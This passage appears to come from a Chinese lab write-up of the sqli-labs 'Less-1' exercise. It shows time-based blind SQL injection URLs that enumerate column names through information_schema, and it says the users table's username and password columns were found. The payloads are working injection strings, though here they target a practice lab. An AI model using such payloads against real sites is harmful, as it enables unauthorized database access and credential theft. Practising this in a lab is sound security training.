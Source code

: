 ```sql
//获取第二个字段名 对应 117 115 101 114 110 97 109 101-->username
http://192.168.77.131/master/Less-1/?id=1' and if(ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1) limit 1,1),1,1))=97,sleep(5),0) --+
```

![image-20240821150224702](assets/image-20240821150224702.png)

```sql
//获取第三个字段名 对应 112 97 115 115 119 111 114 100 -->password
http://192.168.77.131/master/Less-1/?id=1' and if(ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1) limit 1,1),2,1))=97,sleep(5),0) --+
```

![image-20240821150707118](assets/image-20240821150707118.png)

- 至此``数据库名:security``,``表名:users``,``字段名:id,username,password``均获取到了,数据就不展示了!

  
